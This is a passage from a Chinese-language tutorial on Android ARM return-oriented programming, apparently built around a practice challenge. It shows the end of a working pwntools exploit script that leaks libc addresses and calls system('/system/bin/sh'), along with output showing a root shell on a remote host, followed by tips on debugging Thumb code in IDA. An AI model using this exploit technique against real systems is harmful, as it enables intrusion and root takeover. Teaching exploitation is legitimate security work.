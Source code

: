     payload =  '\x00'*132 + p32(gadget1) + '\x00'*0xc + p32(r0) + '\x00'*0x4 + p32(gadget2) + p32(r1) + p32(r2) + p32(r4) + p32(r5) + p32(r6) + p32(write_addr_plt) + '\x00' * 0x84 + p32(ret_to_vul)
    
    p.send(payload)
    
    write_addr = u32(p.recv(4))
    print 'write_addr=' + hex(write_addr)
    
    #.rodata:0003F9B4 aSystemBinSh    DCB "/system/bin/sh",0
    #.text:000253A4                 EXPORT system
    #.text:00020280                 EXPORT write
    
    r0 = write_addr + (0x0003F9B4 - 0x00020280)
    system_addr = write_addr + (0x000253A4 - 0x00020280) + 1
    
    print 'r0=' + hex(r0)
    print 'system_addr=' + hex(system_addr)
    
    payload2 =  '\x00'*132 + p32(gadget1) + "\x00"*0xc + p32(r0) + "\x00"*0x4 + p32(system_addr)
    
    p.send(payload2)
    
    p.interactive()
    

执行exp的结果如下：

    
    
    #!bash
    $ python level9.py 
    [+] Opening connection to 30.10.20.253 on port 10001: Done
    write_addr=0xb6f27280
    r0=0xb6f469b4
    system_addr=0xb6f2c3a5
    [*] Switching to interactive mode
    $ /system/bin/id
    uid=0(root) gid=0(root) context=u:r:shell:s0
    

# 0x05 Android ROP调试技巧

* * *

因为gdb对thumb指令的解析并不好，所以我还是推荐用ida来进行调试。如果你还不会用ida，可以先看一下我之前写的关于ida调试的文章：

    
    
    安卓动态调试七种武器之孔雀翎– Ida pro 
    http://drops.wooyun.org/tips/6840
    

除此之外，还有个很重要的技巧就是如何让ida正确的解析指令。ida在很多时候并不知道需要解析的指令是thumb还是arm，有时候甚至都不知道是啥内容。

比如图中是libc.so中system的代码：

![p9](http://static.wooyun.org//drops/20151216/2015121615313832741914.png)

这段代码其实是thumb指令，但是我们怎么样才能让ida解析正确呢？方法就是用鼠标选中`0xB6EE03A4`，然后按`alt+g`键，然后将`value`改成`0x1`。这样的话，ida就会按照thumb指令来解析这段数据了。

